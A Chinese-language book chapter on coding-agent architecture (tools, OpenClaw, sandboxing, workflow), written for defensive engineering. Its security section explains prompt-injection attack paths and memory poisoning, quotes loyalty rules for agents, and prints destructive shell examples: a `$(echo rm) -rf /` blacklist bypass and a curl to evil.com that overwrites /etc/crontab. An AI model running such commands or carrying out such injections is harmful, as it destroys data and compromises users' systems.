# Coding Agent 與程式碼生成

前面的章節分別深入了上下文工程（第二、三章）和工具設計（第四章）。本章將這些構件組合在一起，回答一個核心問題：**一個能處理任意任務的通用 Agent，它的架構長什麼樣？**

答案是：**以開放任務為目標的通用 Agent**，其核心是 **Coding Agent**（能自主編寫、修改和執行程式碼的 Agent）加上**檔案系統**——Agent 用來儲存程式碼、資料、記憶和中間結果的工作空間，類似於程式設計師在電腦上用資料夾管理專案的方式。這個判斷來自工業界的實踐驗證——從 Manus 到 OpenClaw，成功的開放任務型通用 Agent 都遵循同一正規化：用少量通用工具（程式碼執行、檔案讀寫、搜尋）建構一個 Coding Agent 執行時，在此之上疊加瀏覽器自動化、網路搜尋等能力模組。這一判斷的適用邊界，將在「從 Manus 到 OpenClaw」一節末尾專門討論。

為什麼程式碼生成能擔此重任？因為它不只是工具箱裡的一個工具，而是一種**元能力**——能在執行時動態創造出新的工具和能力。本章後半部分（「程式碼：通用 Agent 的元能力」一節）會完整展開這一概念及其六個發揮方向。

程式碼對 Agent 的價值體現在兩個層面。**思考**上，形式化程式碼讓思考高度嚴謹——「年齡大於 18 且已實名認證」用自然語言描述可能有多種理解，寫成 `age > 18 and is_verified` 就毫無歧義。**表達**上，一段能跑通的程式碼本身就是邏輯自洽的證明，執行結果提供客觀的對錯標準——這是自然語言做不到的。

本章先從 Coding Agent 的基礎能力和通用 Agent 架構（OpenClaw）講起，然後展示程式碼生成在各類場景中的應用——從數學思考、內容創作到系統級的元能力。

## Coding Agent

### Coding 是 Agent 的基礎能力

**程式碼生成不是少數專門化 Agent 的專利，而是每個通用 Agent 都該具備的基礎能力**。在當前 SOTA 模型的加持下，具備基本 coding 能力並不需要複雜的架構。

考慮一個典型任務：「整理倉庫中所有遺留的 TODO 註釋，按優先順序分類並生成 issue」。完成這件事需要——瀏覽目錄結構（ls/glob）、讀取程式碼（read）、修改檔案（edit/write）、執行命令（bash）、查詢模式（grep/search）。這五類操作覆蓋了幾乎所有 Coding Agent 的核心動作，也正是下面要展開的七個工具的來由。嚴格說，這五類操作自然對應六個工具；第七個 Code Interpreter 對應的是「執行程式碼/計算”這類操作，在有的實現裡乾脆與 Bash 合併——七個工具是規範化的參考集，不必與五類操作嚴格一一對應。

一個基礎的 Coding Agent 只需配備以下七個處理器核工具：

1. **Code Interpreter（程式碼直譯器）**：提供隔離的沙盒環境（sandbox，即與主系統隔離的安全執行空間，程式碼在其中執行即使出錯也不會影響宿主機），安全執行 Python 程式碼
2. **Bash Shell（命令列終端機）**：在終端機中執行命令，如執行測試用例、處理特殊格式檔案
3. **讀檔案工具**：讀取程式碼、配置、文件、日誌等
4. **寫檔案工具**：建立新檔案或完全重寫現有檔案
5. **編輯檔案工具**：對現有檔案進行區域性修改，是程式碼維護和迭代的核心操作
6. **搜尋檔名工具（Glob）**：透過模式匹配快速定位檔案系統中的目標檔案，例如用 `**/*.py` 找出專案中所有 Python 檔案
7. **搜尋檔案內容工具（Grep）**：在檔案內容中搜尋特定的文字模式，例如搜尋所有呼叫了某個函式的程式碼行

這七個工具構成了一個完整但極簡的工具箱，幾乎任何 Agent 系統都可以低成本地整合。它們在實現上均可透過第四章介紹的 MCP 協定暴露為標準化工具服務。注意，這個工具集是 Coding Agent 特有的基礎配置，不同於第四章按呼叫方向和作用性質劃分的五類通用工具分類（感知/執行/協作/事件觸發/使用者溝通）——七個核心工具主要覆蓋了感知和執行兩類。讀者可能會問：那協作、事件觸發、使用者溝通這三類需求呢？——在 Coding Agent 中通常由 Agent 框架（而非工具層）處理，例如子 Agent 委託由框架的編排邏輯管理，而非透過專用的協作工具。

用一個最簡單的任務來看這七個工具是怎麼配合的。假設使用者說「幫我把專案裡所有 TODO 註釋整理成一個清單」：

```
Agent（思考）：需要找到所有包含 TODO 的程式碼行。
Agent → Grep("TODO", glob="**/*.py")          # 搜尋檔案內容
工具返回：
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent（思考）：找到了 3 個 TODO，整理成清單寫入檔案。
Agent → Write("TODO_LIST.md", content="...")   # 寫檔案
工具返回：檔案已建立

Agent：已整理完畢，共發現 3 個 TODO 項，清單儲存在 TODO_LIST.md。
```

整個過程只用了 Grep（搜尋內容）和 Write（寫檔案）兩個工具。如果任務更復雜——比如「統計每個模組的 TODO 數量並畫個柱狀圖」——Agent 還會用 Code Interpreter 執行 Python 程式碼來做統計和繪圖。七個工具雖然簡單，組合起來就能完成非常多樣化的任務。

為什麼每個通用 Agent 都應該具備 coding 能力？因為程式碼生成不只是寫程式——它是一種通用的問題解決手段。遇到數學推理，可以寫段程式碼交給求解器算出精確答案；需要固化業務規則，程式碼比自然語言描述精確得多；缺少某個工具，可以臨時寫一個；資料格式變了，動態生成解析邏輯。本章後續會逐一展開這些場景。一個具備基本 coding 能力的 Agent，即使工具箱中只有上述七個簡單工具，也能在遇到新需求時動態擴充套件自己的能力邊界。

### 案例：從 Manus 到 OpenClaw——通用 Agent 的 Coding 核心

以 Manus 為代表的通用 Agent 產品，將 Deep Research（深度調研）、Computer Use（電腦操控）和 Coding（程式碼生成）三大能力融合在一個系統中，凸顯了一個已經被多類實踐反覆驗證的洞察：**Coding Agent 加上檔案系統，是開放任務型通用 Agent 最核心的技術基礎**。開源專案 OpenClaw 也採用了類似思路，以開源實踐展示了這一架構正規化。

為什麼 Coding Agent 是核心而非其他兩種？因為幾乎所有高效的內容生成最終都要落到程式碼上。PPT 本質上是 OOXML（Office Open XML，微軟推出的辦公文件開放標準）格式的程式碼，Word 文件和 PDF 報告可透過程式碼生成，資料分析和視覺化由 Python 指令碼完成，甚至 GUI 操作中成功的瀏覽器操作序列也可以被固化為可複用的 RPA（機器人流程自動化，Robotic Process Automation）程式碼（Computer Use 本身見第九章，操作序列的固化機制詳見第八章）。Deep Research 的搜尋和資訊綜合可透過程式碼驅動的 Web 請求和解析實現，Computer Use 雖然通用性更強，但成本、延遲和穩定性遠不如直接透過程式碼或 API 來完成相同操作。程式碼生成是效率最高、成本最低、可複用性最強的能力基座。





用一個具體的執行流來理解這個架構。假設使用者要求 「Help me analyze last quarter's sales data and create a summary report」：

1. **讀記憶**：Agent 讀取 `MEMORY.md`，發現使用者偏好 PDF 格式的報告，資料來源是 Google Sheets
2. **調工具**：透過網路搜尋模組獲取 Google Sheets API 的使用方法，透過程式碼執行下載資料
3. **寫程式碼**：用 Python 生成資料分析指令碼（pandas 聚合、matplotlib 視覺化）
4. **生成產物**：將分析結果寫入 `report.pdf`，圖表寫入 `charts/` 目錄
5. **更新記憶**：在 `MEMORY.md` 中記錄 「User's sales data is in Google Sheets, ID: xxx」，下次無需再問

整個過程中，檔案系統是資訊流轉的樞紐——記憶從檔案讀取，產物寫入檔案，經驗也儲存為檔案。

**檔案系統作為 Agent 的中樞**。在 OpenClaw 的設計中，檔案系統遠不止是資料儲存——它是 Agent 記憶、知識和能力的中樞。Agent 的長期記憶儲存在 `MEMORY.md`（高層級事實和使用者偏好）和按日期歸檔的 Markdown 日誌中。選擇 Markdown 而非向量資料庫，這個決定看似反直覺，實際上極其有效：使用者可以直接開啟檔案閱讀和修改 Agent 的記憶（如果 Agent 記錯了某件事，直接刪除那一行即可），Markdown 天然保留時間順序避免語義檢索中的時間混淆，而且可透過 Git 進行版本控制和回滾。

更關鍵的是，Agent 擁有寫檔案的能力，這意味著它可以透過寫檔案來**自我進化**。當 Agent 首次執行某個任務並行現了之前不知道的關鍵資訊（例如給某銀行打電話時，發現對方要求提供開戶行地址才能驗證身份），它會將這條經驗寫入知識庫，下次執行相同任務時自動載入。這種「越用越聰明」的機制，本質上就是第八章將深入討論的外部化學習正規化的具體實踐。

**適用邊界：哪些 Agent 以 Coding 為核心架構**。「Coding Agent 是通用 Agent 的核心」這一判斷主要適用於**以開放任務為目標**的通用 Agent——深度調研、內容生成、資料處理這類任務邊界不確定、產物形態多樣的場景。在這些場景中，無法預先列舉所有需要的工具，程式碼生成作為元能力提供了動態擴充套件能力邊界的最經濟路徑，因此它是架構的核心。而另一類 Agent——垂直領域的客服 Agent、語音助手——任務空間相對封閉，核心架構圍繞固定的業務流程、領域工具和對話策略建構，程式碼在其中更多是工具箱裡的一件工具而非架構中樞（本章後文的 τ-bench（一個模擬客服場景的基準測試，詳見後文）例子中，程式碼扮演的正是政策校驗工具的角色）。但即便在後者，coding 也是不可或缺的基礎能力：精確計算、資料處理、規則校驗都離不開它——這正與前一節「Coding 是 Agent 的基礎能力」的論斷呼應：是否以 Coding 為核心架構因場景而異，但具備 coding 能力是所有 Agent 的共同底線。

### Sessionless 設計

接下來討論「隨時可用」的互動方式和安全架構這兩個設計，乍看與 Coding Agent 主題無關。然而它們直接決定了 Agent 如何管理程式碼執行環境和檔案系統狀態，而這正是 Coding Agent 的核心關切。（想先了解 Coding Agent 如何一步步工作的讀者，可以先跳讀後面的「Coding Agent 的整體流程」一節，再回到這裡看互動與安全設計。）

OpenClaw 採用 **Sessionless**（無會話）設計：沒有安裝、登入、「開啟 App」這些步驟，Agent 常駐線上，使用者透過自己已經在用的訊息平臺隨時發一條訊息就能得到響應——這一互動形態及其背後的 Gateway 訊息路由與事件驅動架構，已在第四章的使用者溝通工具部分詳細討論，此處不再展開。值得強調的是這種形態成立的前提：大模型已經成熟到足以充當一種新的「智慧基座」——類似傳統作業系統遮蔽硬體、為上層應用提供統一抽象，大模型遮蔽了語言理解與思考規劃的複雜性，為上層 Agent 提供統一的智慧抽象。正是有了這層基座，「常駐 + 隨時響應」的形態才得以低成本地工程化。

對 Coding Agent 而言，Sessionless 真正的工程難點在於**程式碼執行環境和檔案系統狀態如何跨訊息存活**。使用者的兩條訊息可能間隔幾分鐘，也可能間隔幾天，而 Agent 的工作依賴大量隱式狀態：沙盒裡安裝的依賴包、終端機會話中的工作目錄和環境變數、後臺執行的開發伺服器、寫到一半的檔案。OpenClaw 的做法是把狀態分為兩層管理。**檔案系統狀態天然持久**——工作區（workspace）目錄掛載在沙盒之外的持久儲存上，程式碼、資料、中間產物跨訊息、跨沙盒重啟都不會丟失，這也是「檔案系統作為 Agent 中樞」的另一層含義。**程序狀態則按需保活或重建**——沙盒及其中的終端機會話在活躍期間保持執行，避免每條訊息都冷啟動、重新切換目錄、重新啟用虛擬環境；閒置超時後銷燬以回收資源，銷燬前把可序列化的環境狀態（工作目錄、環境變數、後臺任務清單）記錄到工作區檔案中，下次喚醒時由 Agent 按記錄重建。本章後文「命令執行環境的狀態持久化」討論的持久終端機會話，正是這套機制在單次任務內的對應物；Sessionless 把同一個問題拉長到跨訊息、跨天的時間尺度上。

Sessionless 也不是免維護——它意味著每次使用者訊息都需要**重新載入完整的軌跡和工作狀態**，因此對狀態序列化效率、軌跡壓縮策略有更高要求；軌跡壓縮本身的設計原則已在第二章「上下文壓縮策略」中討論，本章側重 Sessionless 架構下的工程取捨。

### Coding Agent 的安全

本節把 Coding Agent 的安全防線收攏為一條完整的敘事線：先勾勒**威脅模型**——哪些風險最致命；再討論**隔離兜底**——沙盒的網路出口、檔案系統與資源限額；然後是**執行期防禦**——命令的語義解析，以及讓安全檢查「隱形」的推測性執行；最後落到**信任與忠誠**——多方委託下 Agent 為誰效忠，以及當 AI 寫的程式碼本身不可信時，如何把信任邊界下移到資料層。其中威脅模型、忠誠度與信任邊界的討論對所有 Agent 通用，沙盒與命令解析是 Coding Agent 特有的增量。

這種「主權智慧體」正規化也帶來了嚴峻的安全挑戰。Coding Agent 擁有讀寫檔案、執行命令、訪問網路的權限，這意味著一旦被注入惡意指令就可能造成不可逆的損失。開發者、獨立研究者 Simon Willison 將這種風險概括為著名的「致命三要素」——三個要素齊備，就構成了一條完整的攻擊閉環，系統即屬高危：

1. **訪問私有資料**——Agent 能讀取使用者檔案和密碼管理器
2. **暴露於不受信任內容**——處理的郵件和網頁可能包含惡意載荷
3. **具備外部通訊能力**——能傳送郵件和執行命令

攻擊路徑由此閉合：惡意指令藏在不受信任的內容中進入 Agent，驅使它讀取私有資料，再經對外通道傳出。注意，三要素齊備本身就已足夠危險，不需要任何額外條件。在此基礎上，筆者補充第四個維度——**持久記憶**。它不是並列的第四個必要條件，而是攻擊的放大器：攻擊者可將看似無害的偏見或惡意指令寫入 Agent 的長期記憶，跨會話潛伏，在合適的時機再觸發，把拋棄式攻擊升級為長期的潛伏與放大。

這四點可以概括為四類邊界：資料邊界、輸入信任邊界、輸出影響邊界、跨會話邊界。OpenClaw 這樣的全權限本地 Agent 恰四者兼備，安全防護因此成為此類 Agent 必須正視的核心挑戰。

這也解釋了為什麼閉源的商業 Agent（如 Claude Cowork（Anthropic 面向知識工作的通用 Agent，複用 Claude Code 的 agentic 架構，能讀寫本地檔案、跨多個辦公應用完成多步任務）選擇了保守的權限策略——不是技術做不到，而是安全風險太高。面對提示注入威脅，單靠輸入過濾基本擋不住。重點不是識別所有攻擊，而是讓 Agent 即使被注入，也沒有機會把危險動作真正執行出去。防禦體系在前兩章已經分層建立：**上下文層防禦**——外部內容來源標註、結構化角色隔離、輸入清洗——見第二章提示注入一節；**執行層防禦**——Sidecar 獨立審查、Human in the loop（人在迴路）、最小權限與權限分離——見第四章。同一上下文中的 Agent 很難判斷自己是否已被注入，因此關鍵操作必須由上下文之外的機制複核，這一原則貫穿兩章。本節只補充 Coding Agent 特有的三點增量：

- **命令語義解析**——Shell 命令的組合爆炸使關鍵字黑名單形同虛設，必須在語義層理解命令的真實效果（本節後文將展開）；
- **沙盒隔離與網路出口控制**——程式碼執行是 Coding Agent 獨有的攻擊面，隔離級別與出口策略的工程選型見本節後文；
- **持久記憶的跨會話防線**——這是本章在致命三要素之外特別強調的擴充套件項：寫入長期記憶的內容需經過與外部內容同等的信任審查，避免惡意指令潛伏在 `MEMORY.md` 中長期生效。

這三點增量分別落在驗證、執行和資料三個層面，與前兩章的防禦體系互為補充。這些策略不能完全消除風險，但能縮小 Agent 的攻擊面。

**隔離兜底：程式碼執行沙盒的工程選型。** 沙盒不是一個開關，而是一系列工程決策。第四章已經回答了「為什麼要隔離」、隔離機制的分級原理（程序級隔離、容器、microVM 三檔譜系），以及「個人本機用程序級、單租戶雲端用容器、多租戶或陌生程式碼用 microVM/gVisor”的選型法則；這裡不再重複這一譜系，只補 Coding Agent 落地時繞不開、而第四章未展開的四項增量：網路出口怎麼管、檔案系統掛多少、資源怎麼限、持久會話與隔離如何調和。

**網路出口控制**。這是最容易被忽視、卻最關鍵的一項：預設斷網，按需透過白名單代理放行有限目的地（包管理源、文件站點、任務明確需要的 API）。回看致命三要素的第 3 條——「具備外部通訊能力」——網路出口控制正是它的執行面防禦：即使提示注入成功、惡意程式碼在沙盒內讀到了敏感資料，沒有出口就傳不出去。相比試圖識別每一次注入，掐斷資料外傳通道是確定性得多的防線。

**檔案系統隔離範圍**。原始程式碼目錄以唯讀方式掛載（Agent 透過編輯工具修改程式碼，生成的補丁經審查後落盤，或將副本掛入可寫工作區），單獨的可寫工作區目錄承載生成物和中間檔案；憑證類檔案（`~/.ssh`、金鑰、token）根本不掛載進沙盒——不可見的資料無法洩露，這對應致命三要素的第 1 條。

**資源限額與超時**。CPU、記憶體、磁碟配額加掛鍾超時，防禦死迴圈、fork 炸彈（瘋狂自我複製程序直到拖垮系統）和無限寫盤。一個實踐細節：超時和超限應向 Agent 返回結構化錯誤（「執行超過 120 秒被終止，最後輸出如下……」）而非靜默殺死程序，讓 Agent 有機會在下一輪修正策略。

**持久會話與隔離的調和**。本章後文「命令執行環境的狀態持久化」主張維護長期存活的終端機會話，而隔離原則主張環境用完即棄——兩者存在張力。調和的思路是：**會話保活在沙盒內部**，終端機會話的生命週期嚴格不超過沙盒的生命週期，會話狀態從不逃逸到宿主機；對需要跨長時間間隔恢復的場景（如前文 Sessionless 架構），依靠沙盒快照或「工作區檔案持久化 + 環境按指令碼重建」來恢復狀態，而不是無限延長沙盒的存活時間。換句話說，持久化的是**可審計的狀態描述**（檔案、指令碼、清單），而不是不透明的執行中程序。

**安全：語義解析而非關鍵字黑名單**。第一章提到驗證層應採用「基於理解而非匹配」的安全機制，Shell 命令安全校驗是這一原則最具挑戰性的應用場景。簡單的關鍵字黑名單無法應對 Shell 的組合爆炸——命令可以透過管道、子 shell、變數展開等方式繞過任何靜態規則（例如 `rm` 被禁了，攻擊者可以用 `$(echo rm) -rf /` 繞過）。生產級 Harness 採用語義解析：理解每個命令的引數型別和消費規則（哪些標誌位會消費下一個引數），識別出「某個看似無害的標誌位實際上會消費下一個引數從而隱藏危險載荷」這類攻擊模式。例如，`find / -name '*.log' -exec rm {} \;` 透過合法的 `find` 命令引數嵌入了 `rm` 刪除操作；又如 `curl -o /etc/crontab http://evil.com/payload`，看似下載檔案實則覆蓋系統定時任務。語義解析能識別出這些巢狀的危險操作，而簡單的命令黑名單無法捕獲。這種基於理解而非匹配的安全機制，是“約束”功能的高階實現。

**推測性執行：讓安全檢查「隱形」**。這正是第四章 Sidecar 門控機制在使用者體驗層的效果——第四章解釋了為什麼關鍵操作要交給獨立於主上下文的 Sidecar 複核，本節關心的是如何讓這層複核不被使用者感知為等待。做法是把「展示」和「放行」兩件事拆開並行：當 Agent 準備執行一個工具呼叫時，系統一邊在介面上先行顯示進度提示（比如「正在讀取檔案 `src/main.py`...”），一邊同時在後臺跑安全檢查。這裡要澄清一個常被套用的類比：它並不同於 CPU 的推測執行——CPU 猜錯了要丟棄已算的結果、回滾狀態，而這裡先行的只是**無副作用的 UI 提示**，它不改變任何真實狀態，檢查若未透過也無需回滾，只是把提示替換為『等待確認』。大多數情況下，安全檢查在使用者注意到之前就已經完成，使用者完全感受不到額外延遲；只有在無法快速判定時，才會真正暫停下來等待確認。這是 Harness 設計的最高境界：安全性不以犧牲使用者體驗為代價。

**Agent 為誰效忠：多方委託下的忠誠度。**

前面的安全機制防的是「命令被做壞」，還有一類更微妙的安全問題——**委託方忠誠**（principal loyalty）：**Agent 到底站在誰那一邊**。模型在訓練時被灌輸了一條樸素的預設原則——「誰在跟我說話，我就盡力幫誰」；但真實的 Agent 常處在**多方委託**的處境裡：它代表主人行事，打交道的卻是利益相反的第三方——一個替你砍價的 Agent，對面坐著的不是「需要被幫助的使用者」，而是**交涉對手**。此時「誰說話幫誰」就是危險的預設設定：對手只要開口，就可能把 Agent 策反。

把前沿模型放進這種處境實測，會看到一條清晰的**忠誠度光譜**，而且兩端都會翻車[^ch5-1]：一端是**太老實**，把主人的私密資訊（比如「我方底價是 12000」）直接抖給對手，被反覆施壓幾輪就繳械讓步；另一端是**太多疑**，連主人正當的請求也一概拒絕，反而沒法完成任務。真正難的是，這兩種失敗是一根蹺蹺板——把洩密堵死往往就滑向過度拒絕，很難兩全。

這對 Coding Agent 尤其貼切：倉庫裡讀到的不可信內容、某個工具返回的輸出、第三方 MCP 伺服器發來的指令，都是試圖讓 Agent 倒戈的「對手」——**提示注入本質上就是一次策反**（第二、四章）。因此 Harness 層要把「忠誠物件」顯式釘死：主人的指令優先順序最高，一切來自外部互動方的內容都預設降格為「可參考、但不具備指令效力」的資料。落到系統提示上，一套行之有效的**忠誠度守則**是：保護主人的私密資訊乃至它的「存在性」；拒絕時不逐條念出拒絕清單（那本身就在洩露）；私下的底線不等於對外的立場；只執行主人明確、具體的指令；頂住重複施壓。本質上，這是在用 Harness 為模型補上一條它預設沒有的立場：**對主人絕對忠誠，對外部互動方保持審慎**。

[^ch5-1]: 這條忠誠度光譜及守則的完整評測見 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**當 AI 寫的程式碼本身不可信：把信任邊界下移。**

上一段的忠誠度守則讓 Agent **更可能**守規矩，但對高危的資料操作，「更可能」還不夠——需要把約束從「寄望 Agent 自覺」下移到資料層強制執行。更徹底的立場是[^ch5-2]：**乾脆把應用層當作不可信的，把資料不變數的強制執行下沉到它下面**。過去三十年，軟體的完整性邊界一直在**應用層**——由 handler 程式碼決定誰能操作、什麼值合法，資料庫則無條件信任這些程式碼；而 LLM 生成的 handler 經常漏掉權限與完整性檢查，自主 Agent 又會直接對生產資料下手，這個前提被打破了。新的方案（可稱之為權限內嵌的資料物件，Permission-Embedded Data Objects）讓每個資料實體在一份**人類審查過的 schema** 裡自帶宣告式的權限規則、校驗器和後果宣告，由一條執行時流水線在**每一次寫入**時強制執行。關鍵原語是掛在每個操作上的**訪問上下文（access context）**：被重新生成的 handler 以它所服務的使用者的權限執行，自主 Agent 則以它自己受限的身份（scoped principal）執行——與其只寄望 Agent 忠誠，不如從架構上把它降格為權限受限的主體，讓它即便被策反也越不過雷池。

在同一批 prompt 上對照，這套機制做到**沒有任何一次寫入違反宣告的不變數**；而裸 SQL、LLM 自己寫的檢查、憲法式提示、動作邊界攔截器都會漏過數次到數十次違規。它不是「更可能對」，而是「不可能錯」，代價只是每次寫入多花約 2 毫秒。當然，保證是有條件的：schema 要真的把想要的不變數寫全，部署上必須堵死不可信層繞過儲存、直連資料庫的所有路徑。對 Coding Agent 而言，這給出一條重要的架構原則：**當寫程式碼的和跑程式碼的都可能不可信時，真正可靠的約束不能待在被生成的程式碼裡，而要待在它下面那層人類審查過的地基裡**——這也是第一章「約束優先於指導」原則在資料層的終極形態。

[^ch5-2]: 這一「把信任邊界下移到應用層之下」的設計與評測（含各方案違規次數的完整對照）見 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026（待發表）。

### Coding Agent 的整體流程





下面描述的是一套**推薦的工程化流程**，它把軟體工程的最佳實踐投射到 Agent 身上，勾勒的是理想形態。現實中的 Coding Agent（如 Claude Code、OpenClaw）更多按反應式的迭代迴圈工作，會**按需裁剪**這套流程——簡單任務會跳過設計文件、不會每一步都阻塞等待使用者批准，只有當任務複雜、影響面大時才會完整走完各階段。

**專案文件化。**

Coding Agent 的工作始於對專案的系統性理解。當 Agent 首次接觸一個程式碼倉庫時，首要任務不是馬上動手改程式碼，而是先建立對整個專案的認知框架——就像新入職的工程師，第一天不會直接提交程式碼，而是先熟悉專案結構。Agent 會首先檢查專案是否存在文件——README、架構設計文件、開發者指南。

如果關鍵文件缺失，Agent 不應在盲目狀態下開始工作，而應主動承擔文件化的責任——透過系統性地閱讀程式碼庫，識別主要模組、核心抽象、元件間依賴關係，生成包含架構概覽、目錄結構、測試執行指南的初始文件。這份文件既為 Agent 後續工作提供藍圖，也為其他開發者提供了入口點。這體現了一個關鍵原則：知識的顯式化是高效協作的前提。

專案文件化如今有了一種 Agent 專用的形態：**專案指令檔案**。CLAUDE.md、AGENTS.md、.cursorrules 等檔案已成為業界事實標準——它們在每次會話開始時被自動注入上下文，相當於專案級的系統提示詞。與面向人類讀者的 README 不同，指令檔案承載的是面向 Agent 的行為約定：建構與測試命令（「用 `pnpm test` 而不是 `npm test`」）、程式碼風格（「停用 any 型別」）、明確的禁區（「不要改動 `migrations/` 目錄」）。這與 OpenClaw 的 `SOUL.md`（定義 Agent 的身份與行為規則）、`MEMORY.md`（沉澱跨會話經驗）是同一思路在不同層面的應用：SOUL.md 約定「Agent 是誰」，專案指令檔案約定「在這個專案裡該怎麼幹活」。從第二章上下文工程的角度看，指令檔案還是最經濟的穩定字首——內容不隨任務變化，天然對 KV Cache 友好；它也是「知識必須存在於程式碼庫本身」原則最直接的落地。

知識顯式化原則還有一個有趣的推論：**對遠端工作友好的團隊往往也對 AI Agent 友好**。遠端團隊被迫依賴非同步溝通與文件化——決策記錄在文件裡，上下文寫在 issue 和 PR 描述裡，部落知識沉澱在開發者指南里，而不是靠工位旁的口頭傳遞和會議室白板。這恰好就是 Agent 能消費的知識形態：Agent 讀不到口頭約定，但讀得到設計文件。反過來，一個高度依賴「問一下坐旁邊的同事」的團隊，無論對新入職的遠端員工還是對 Agent，上手成本都同樣高。評估一個團隊的「AI-ready」程度，一個簡單的代理指標是：一個遠端新人只靠程式碼倉庫和文件，能不能獨立開展工作。

**任務理解與需求澄清。**

對於邊界清晰、影響範圍有限的簡單需求——例如修正一個已知的 bug、調整某個函式的引數——Agent 可直接進入實現階段。然而，軟體開發中的大多數任務並非如此簡單。

對於複雜需求，Agent 必須更加謹慎和有條理。複雜性可能源於多個維度：需求本身的模糊性（使用者知道想要什麼但無法精確表達）、實現路徑的多樣性（多種技術方案可選，各有權衡）、或影響範圍的廣泛性（需修改多個模組，可能破壞現有功能）。Agent 應透過探索性調研來澄清邊界，必要時主動與使用者對話。例如，當使用者要求「最佳化系統效能」時，Agent 需要先搞清楚：最佳化的具體目標是什麼（降低響應時間、減少記憶體佔用還是提高吞吐量）、可接受的權衡是什麼（是否允許增加程式碼複雜度）、以及當前瓶頸在哪裡。在需求模糊的狀態下就開始編碼，往往導致大量返工。

**編寫設計文件。**

設計文件是將抽象需求轉化為具體實現計畫的橋樑，應回答核心問題：修改哪些模組及原因，採用什麼方案及其相對優勢，需引入哪些新依賴，預期對系統的影響。編寫設計文件本身就是深度思考——它迫使 Agent 在投入大量編碼前先在概念層面驗證方案可行。設計文件為人類提供了高效的介入點——審查簡潔的設計文件比審查數百行程式碼容易得多。Agent 完成設計文件後應提交給使用者審查，等待批准後再繼續。

**程式碼實現與測試。**

獲得設計批准後，Agent 遵循專案程式碼規範進行實現，複用現有抽象和工具，必要時進行適度重構以保持程式碼庫健康。

實現完成後立即進入測試驅動的質量保障環節——為新增或修改的功能編寫測試用例，覆蓋正常路徑、邊界條件和異常情況。編寫完測試後執行測試套件。如果測試失敗，Agent 不應簡單地向使用者報告失敗，而應分析原因、定位問題、修改程式碼直到所有測試透過。這個 「測試～修復」 迴圈可能需要多次迭代，正是這種自我糾錯能力將 Coding Agent 從程式碼生成器提升為可靠的工程助手。反過來說，Coding Agent 最常見的偷懶方式，就是跳過這一環節——寫完程式碼不跑測試就報告「任務完成」。把「測試透過」而非「程式碼寫完」定義為完成標準，正是 Loop 工程「由驗證判定何時可以停」原則在編碼場景的落地（第十章將系統討論這類「過早終止」問題）。

即使所有測試透過，Agent 的工作也還沒結束。接下來是程式碼審查階段：Agent 對自己生成的程式碼進行批判性審視——可讀性如何，是否有足夠註釋；是否存在潛在的效能問題或安全漏洞；是否遵循專案的程式碼風格和最佳實踐。這個自我審查可透過閱讀程式碼、執行 lint 工具或呼叫專門的程式碼審查子 Agent（Sub-Agent）來實現。如果審查發現問題，應回到修改階段完善，而不是將有缺陷的程式碼交付給使用者。

**文件同步與交付。**

如果程式碼修改涉及架構層面的變化——例如引入新模組、改變模組間依賴關係、修改核心抽象語義——Agent 需相應更新架構文件。過時的文件比沒有文件更糟糕，因為它會誤導未來的開發者。透過在每次重要修改後自動更新文件，Agent 幫助維護了專案知識庫的完整性和時效性。

這套流程體現了軟體工程的核心原則：計畫先於行動，驗證貫穿始終，文件與程式碼共同演化。

### Harness 工程在 Coding Agent 中的實踐

